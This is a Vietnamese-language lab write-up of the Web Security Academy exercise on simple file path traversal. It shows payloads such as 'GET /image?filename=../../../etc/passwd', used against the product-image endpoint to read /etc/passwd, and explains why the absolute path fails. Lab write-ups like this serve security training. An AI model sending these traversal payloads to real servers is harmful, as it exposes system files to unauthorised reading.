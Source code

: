 # Lab: File path traversal, simple case
Bài thực hành này chứa lỗ hổng bảo mật đường dẫn trong việc hiển thị hình ảnh sản phẩm.

Để giải quyết bài thực hành, hãy truy xuất nội dung của tệp `/etc/passwd.`

# Kết quả
Playload 1
```
../../../../etc/passwd
```
Playload 2
```
/etc/passwd
```
URL: `https://0a48005a04e7c3848140bb7500f30011.web-security-academy.net/`.  
Sử dụng burp suite để thấy các gói tin. Lúc này thấy 1 số URL load ảnh `GET /image?filename=31.jpg`
<img src="./img/Screenshot 2025-07-24 at 21.03.45.png">
Sử dụng `repeater` để thay đổi file.  
Playload 1
```
GET /image?filename=/etc/passwd
```
<img src='./img/Screenshot 2025-07-24 at 21.09.35.png'>
Respone trả về `400` và báo 'No such file'.

Playload hiện tại là 1 đường dẫn tuyệt đối. Như ta biết ảnh thường được lưu tại `/var/www/images/` với playload trên có thể hiểu là `/var/www/images/etc/passwd` và nó không tồn tại thật.

Playload 2
```
GET /image?filename=../../../etc/passwd
```
Với playload này thì đã exploit thành công. 

Vì sao: Trong linux với mỗi một `../` ta đã ra ngoài 1 folder vậy ở đây đang có 3 `../../../` thì đã thoát ra khỏi `/var/www/images/` nên đọc được file ở `/etc/passwd`.
<img src="./img/Screenshot 2025-07-24 at 21.13.23.png">
# Tip
Có thể `../` nhiều hơn 3 lần vì nhiều đến đâu rồi cũng tới `/root`